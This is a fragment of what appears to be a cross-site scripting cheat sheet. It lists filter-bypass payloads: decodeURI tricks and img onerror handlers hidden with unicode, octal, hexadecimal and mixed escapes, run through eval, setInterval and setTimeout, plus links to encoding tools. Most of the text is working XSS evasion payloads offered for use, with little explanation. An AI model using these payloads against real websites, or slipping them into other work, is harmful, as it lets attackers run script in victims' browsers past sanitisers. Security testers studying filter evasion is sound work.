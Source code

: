 -> unescape

e.g.

-> decode URI + unescape method (need eval)

```
decodeURI(/alert(%22xss%22)/.source)
decodeURIComponent(/alert(%22xss%22)/.source)

```

### Other bypass techniques

- > unicode

```
<img src=x onerror="\\u0061\\u006c\\u0065\\u0072\\u0074(1)"/>

```

Add execution sink:

-> eval

-> setInterval

-> setTimeout

- > octal

```
<img src=x onerror="eval('\\141lert(1)')"/>

```

- > hexadecimal

```
<img src=x onerror="setInterval('\\x61lert(1)')"/>

```

- > mix (uni, hex, octa)

```
<img src=x onerror="setTimeout('\\x61\\154\\145\\x72\\164\\x28\\x31\\x29')"/>

```

https://checkserp.com/encode/unicode/

http://www.unit-conversion.info/texttools/octal/

http://www.unit-conversion.info/texttools/hexadecimal/

### Other Examples

### HTML Tag

```
<div>here</div>

```
